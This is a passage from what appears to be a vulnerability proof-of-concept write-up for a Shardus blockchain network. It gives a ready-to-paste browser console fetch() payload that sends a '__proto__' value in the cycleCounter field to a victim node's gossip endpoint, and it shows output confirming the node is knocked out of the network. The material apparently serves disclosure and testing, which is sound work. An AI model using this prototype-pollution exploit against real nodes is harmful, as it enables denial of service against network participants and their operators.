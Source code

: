 Paste the following snippet of code in the console. **REPLACE "SERVER_IP" with the IP of the server and REPLACE "PK_OF_VICTIM" with the public key of the victim you selected.**

```
fetch(`http://SERVER_IP:9002/infosec_gossipAnything/?route=get_tx_timestamp&pk=PK_OF_VICTIM`, {
    method: 'POST',
    headers: {
        'Content-Type': 'application/json'
    },
    body: JSON.stringify({
        txId: "error",
        cycleCounter: "__proto__",
        cycleMarker: "error"
    })
}).then(response => {
    if (!response.ok) {
        throw new Error('Network response was not ok');
    }
    return response.json();
}).then(data => {
    console.log('Success:', data);
}).catch(error => {
    console.error('Error:', error);
})
```

Press Enter on your keyboard to execute the code.

## State of the victim node after sending the payload

If the steps were followed correctly:

- The browser console will output:
```
Success - { ok: 1 }
```

- The Network Monitor running at port 3000 will paint in red the victim node and later remove it from the screen:
> A screenshot here: https://ibb.co/zJN4qGK

- The output of running `shardus pm2 list` shows that all nodes are *online*:
```
┌─────┬────────────────────────────┬─────────────┬─────────┬─────────┬──────────┬────────┬──────┬───────────┬──────────┬──────────┬──────────┬──────────┐
│ id  │ name                       │ namespace   │ version │ mode    │ pid      │ uptime │ ↺    │ status    │ cpu      │ mem      │ user     │ watching │
├─────┼────────────────────────────┼─────────────┼─────────┼─────────┼──────────┼────────┼──────┼───────────┼──────────┼──────────┼──────────┼──────────┤
│ 1   │ "archive-server-1"         │ default     │ 3.4.21  │ fork    │ 421052   │ 25m    │ 0    │ online    │ 0%       │ 88.7mb   │ z        │ disabled │
│ 2   │ "monitor-server"           │ default     │ 2.6.3   │ fork    │ 421074   │ 25m    │ 0    │ online    │ 0%       │ 146.3mb  │ z        │ disabled │
│ 3   │ "shardus-instance-9001"    │ default     │ 1.11.4  │ fork    │ 421100   │ 25m    │ 0    │ online    │ 0%       │ 166.2mb  │ z        │ disabled │
│ 4   │ "shardus-instance-9002"    │ default     │ 1.11.4  │ fork    │ 421125   │ 25m    │ 0    │ online    │ 0%       │ 162.5mb  │ z        │ disabled │
│ 5   │ "shardus-instance-9003"    │ default     │ 1.11.4  │ fork    │ 421148   │ 25m    │ 0    │ online    │ 0%       │ 161.1mb  │ z        │ disabled │
│ 6   │ "shardus-instance-9004"    │ default     │ 1.11.4  │ fork    │ 421174   │ 25m    │ 0    │ online    │ 0%       │ 163.6mb  │ z        │ disabled │
│ 7   │ "shardus-instance-9005"    │ default     │ 1.11.4  │ fork    │ 421200   │ 25m    │ 0    │ online    │ 0%       │ 160.2mb  │ z        │ disabled │
│ 8   │ "shardus-instance-9006"    │ default     │ 1.11.4  │ fork    │ 421226   │ 25m    │ 0    │ online    │ 0%       │ 160.3mb  │ z        │ disabled │
│ 9   │ "shardus-instance-9007"    │ default     │ 1.11.4  │ fork    │ 421252   │ 25m    │ 0    │ online    │ 0%       │ 162.9mb  │ z        │ disabled │
```